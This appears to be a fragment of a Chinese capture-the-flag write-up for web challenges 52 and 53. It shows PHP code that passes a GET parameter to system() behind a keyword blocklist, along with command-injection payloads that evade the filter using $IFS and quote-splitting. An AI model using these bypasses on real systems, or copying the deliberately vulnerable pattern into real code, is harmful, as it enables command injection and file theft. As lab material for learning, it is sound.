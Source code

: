 pyload:?c=nl<fl''ag.php||ls

### web52

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

pyload:?c=nl$IFS/fla''g||

虚晃一枪，flag在根目录

### web53

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
